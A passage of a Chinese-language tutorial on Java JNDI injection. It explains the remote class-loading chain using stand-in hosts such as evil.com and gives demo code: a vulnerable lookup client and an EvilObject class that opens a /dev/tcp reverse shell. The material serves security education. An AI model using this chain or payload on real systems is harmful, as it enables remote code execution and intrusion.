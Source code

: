 **为什么可以使用绝对路径 URI 去动态地转换上下文环境？**

getURLOrDefaultInitCtx()具体代码实现所导致。第一次调用 `lookup()` 函数的时候，会对上下文环境进行一个初始化，这时候代码会对 `paramName` 参数值进行一个 URL 解析，如果 `paramName` 包含一个特定的 Schema 协议，代码则会使用相应的工厂去初始化上下文环境，这时候不管之前配置的工厂环境是什么，这里都会被动态地对其进行替换。

### 3.5JNDI注入加载远程代码并执行原理及过程（2.2补充）

当 Java 应用代码中出现 `lookup(<attacker-controlled>)` 这种情况时，会形成 RCE，整个利用过程为

![image-20201021144338703](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021144338703.png)

1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj` 想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

整个攻击的实现过程如上面所述，**关键的利用点在于攻击者可控的允许动态环境转换的接口函数**

### 3.6JNDI注入攻击完整的演示代码示例

首先是存在 JNDI 注入的程序（`RMIService.java`）

```
import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception {
        if(args.length < 1) {
            System.out.println("Usage: java JNDIClient <uri>");
            System.exit(-1);
        }
        String uri = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }
}
```

接着是要通过 JNDI 注入远程加载的类实例，可以用 `python -m SimpleHTTPServer` 启一个临时的 HTTP 服务来提供编译好的 `EvilObject.class`（`EvilObject.java`）：

```
import java.lang.Runtime;
import java.lang.Process;

public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/sh", "-c", "/bin/sh -i > /dev/tcp/127.0.0.1/1337 2>&1 0>&1"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```
